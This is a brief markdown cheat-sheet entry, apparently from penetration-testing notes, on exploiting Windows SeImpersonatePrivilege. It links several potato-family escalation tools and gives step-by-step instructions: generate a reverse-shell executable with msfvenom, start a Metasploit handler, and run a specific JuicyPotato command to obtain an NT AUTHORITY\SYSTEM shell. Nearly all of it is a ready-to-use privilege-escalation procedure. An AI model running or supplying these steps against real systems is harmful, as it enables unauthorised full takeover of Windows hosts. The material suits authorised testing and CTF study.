 - - -
Great refrence of all **[whomai /priv](https://github.com/gtworek/Priv2Admin)**

✨️ **Exploitable by  [juicy-potato](https://github.com/ohpe/juicy-potato), [RogueWinRM](https://github.com/antonioCoco/RogueWinRM) (needs winrm disabled), [SweetPotato](https://github.com/CCob/SweetPotato), [PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

## Exploiting SeImpersonatePrivilege **:** **( JUICY POTATO )**

- Transfer **Juicypotato.exe** to windows. ( here under **/Temp** Directory ).
- Create a **Reverse-shell** executable with **msfvenom**.
- Start Metasploit **Multi/handler**.
- Transfer **Reverse-shell.exe** to windows. ( here under **/Temp** Directory ).
- Then **run** the following **command on windows**. And Have A **NT-Authority System** Shell.

```cmd
JuicyPotato.exe -l 9090 -t * -p "C:\Temp\Reverse-shell.exe"
```

- - - 

